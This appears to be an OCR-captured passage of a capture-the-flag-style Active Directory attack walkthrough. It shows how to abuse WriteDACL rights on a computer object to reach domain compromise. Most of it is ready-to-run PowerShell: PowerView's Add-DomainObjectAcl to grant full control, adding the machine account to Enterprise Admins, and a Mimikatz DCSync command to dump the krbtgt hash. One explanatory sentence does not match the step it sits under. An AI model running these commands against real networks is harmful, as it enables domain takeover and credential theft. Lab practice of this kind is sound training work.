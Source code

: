 #### **3. Computers: Gain Full Control Over a Computer Object**

**Scenario:**  
You have `WriteDACL` over a computer object. Use it to grant full control.

**Steps:**

1. **Import PowerView**  
   ```powershell
   import-module .\powerview.ps1
   ```

2. **Set Up Credentials**  
   ```powershell
   $pass = convertto-securestring 'abc123!' -asplain -force
   $cred = new-object system.management.automation.pscredential('htb\MG', $pass)
   ```

3. **Modify DACL to Grant Full Control**  
   Grant full control over the target computer (e.g., `comp01`):
   ```powershell
   Add-DomainObjectAcl -TargetIdentity comp01 -Rights All -PrincipalIdentity MG -Credential $cred
   ```
   - **Why:** This allows modification of computer attributes or other interactions.

4. **Add the Computer to Another Group**  
   Add the computer object to a privileged group, such as "Enterprise Admins":
   ```powershell
   Add-ADGroupMember -Identity "Enterprise Admins" -Members comp01$
   ```
   This sequence shows how to extract secrets using your new account (`MG`) and leverage the extracted `Administrator` hash for privileged access.
   Or
   Use Mimikatz or similar tools to execute the DCSync attack:
   ```powershell
   mimikatz # lsadump::dcsync /user:krbtgt
   ```
